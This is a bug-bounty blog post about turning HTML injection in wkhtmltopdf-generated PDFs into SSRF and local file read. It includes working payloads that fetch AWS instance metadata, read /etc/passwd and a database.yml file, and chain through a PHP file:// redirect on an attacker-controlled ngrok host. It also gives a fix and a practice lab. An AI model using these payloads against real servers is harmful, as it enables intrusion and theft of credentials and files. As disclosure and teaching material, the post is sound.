 ```yaml
---
title: "SSRF to Local File Read"
date: 2021-03-30
tags: [BugBounty, BugBountyTips, Server Side Request Forgery, Local File Disclosure, SSRF, LFI, Ruby On Rails, Rails]
excerpt: "SSRF to Local File Read"
header:
  image: "assets/images/BugBountyImages/ssrf/ssrf_to_lfi.png"

---
```


Greetings everyone, this blog post is about the vulnerability that I have identified in `Wkhtmltopdf` gem, which was allowing users to inject HTML in the pdf files, and after doing further research, I was able to identify that the parser's functionality was vulnerable to internal SSRF attack, which further allowed me to read server's local file.

Injecting the simple HTML payload the code section oft the application `"><h1>XSS</h1>`

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.22.58_PM.png" alt="">

Loading the PDF file show's the injected HTML has been successfully executed in our PDF file. 

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.26.05_PM.png" alt="">


So as you can see HTML injection is happening in our pdf file and at this time as one's my excitement level can be high, Since we know in these kinds of cases there are high chances to find internal SSRF or read local files from the server.

So the next thing I did is to send an XHR request using file:///,As mentioned in the blog post by noob ninja [LFI to XSS](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

```ruby
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script
```

But nothing happened. I realized that the script was blocked and the XHR request got failed. Okay so, the next thing that I have tried is to send the request to my server and checked the response headers. I used simple payload `"><img src="[http://406e7772.ngrok.io](http://406e7772.ngrok.io/)">` and I was presented with the `User-agent` header as `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34`.

I also tried to extract passwd file using the payload `"><iframe src="file:///etc/passwd" height="500" width="500">` it didn't worked as well, got a blank pdf file.

From the user-agent, `wkhtmltopdf` sounds suspicious to me, and after doing a bit of googling I was able to find that `wkhtmltopdf` is vulnerable to SSRF Attacks. [Issue link.](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570)

It was time to try to call AWS metadata API's and that's what I did. So I used an iframe to request internal AWS API's

```ruby
"><iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height="500" width="500">
```

and I was presented with meta data response. I was able to fetch instance identity.

```ruby
document
signature
pkcs7
rsa2048
```

So at this point it was a confirmed internal SSRF.

I didn't want to stop there, as I wanted to exploit it further and read the local files of the server. My hunger just to get read local files so I can sleep peacefully.

As mentioned in the above blog post, `wkhtmltopdf` is vulnerable to SSRF attack and it's through the location header.

```ruby
<?php
     header('location:http://127.0.0.1');
?>
```

So, what I did, create a php file with the following content:

```ruby
<?php header('location:file://'.$_REQUEST['url']); ?>
```

Hosted this PHP file on my ngrok server and then I sent the payload as:

```ruby
"><iframe height="2000" width="800" src=http://c723862e.ngrok.io/test.php?x=%2fetc%2fpasswd></iframe>
```

and i was presented with the PDF file

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.06.06_AM.png" alt="">

Yayy!! I was able to read the local file of the server. as I know more about the organization and how they store their application internally I tried to fetch their database.yml file in path `/config/database.yml` but it did not succeed. Later, I figured it out that they had their database file in `/var/company_name/config/database.yml` and I was able to read their DB file as well.

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.10.55_AM.png" alt="">

### Payloads

In case script and iframe are blocked you can use these payloads:

```html
embed
object
img
```

And you can further craft your payload as:

```html
"><embed src="http://169.254.169.254/latest/dynamic/instance-identity/" width=”200″ height=”200" />

"><object data="http://169.254.169.254/latest/dynamic/instance-identity/" width="400" height="300" type="text/html"></object>

"><img src='http://169.254.169.254/latest/dynamic/instance-identity/' height="2000" width="800">
```

### How to fix this SSRF?

To fix this vulnerability use `-disable-local-file-access` while converting HTML files into PDF.

if you are using wicked_pdf then introduce the `disable_local_file_access` parameter in `parse_others`function. it should look like this:

```ruby
r += make_options(options, [:book,
		                              :other_parameters
                                  :disable_smart_shrinking,
                                  :disable_local_file_access,
                                  :no_stop_slow_scripts], '', :boolean)
```

### Re-creating SSRF locally!

So, I did coded this for my friend so he can practice this bug type.

to reproduce this issue first you need to install wkhtmltopdf in your machine.

**Installation for Debian:**

```bash
$ apt-get install libfontenc1 xfonts-75dpi xfonts-base xfonts-encodings xfonts-utils openssl build-essential libssl-dev libxrender-dev git-core libx11-dev libxext-dev libfontconfig1-dev libfreetype6-dev fontconfig -y
$ wget https://github.com/wkhtmltopdf/wkhtmltopdf/releases/download/0.12.5/wkhtmltox_0.12.5-1.bionic_amd64.deb
$ dpkg -i wkhtmltox_0.12.5-1.bionic_amd64.deb
$ apt --fix-broken install
```

**Installation for Kali Linux:**

```bash
$ sudo apt-get install wkhtmltopdf
```

[https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd](https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd)

[https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707](https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707)

Host these two files on your apache2 server and now you can go to the URL `[http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>](http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>)` once you hit this URL, a test.html file will be created with your supplied input and a PDF file will be generated.

You are good to go with your SSRF to LFI lab and practice it further! ;)
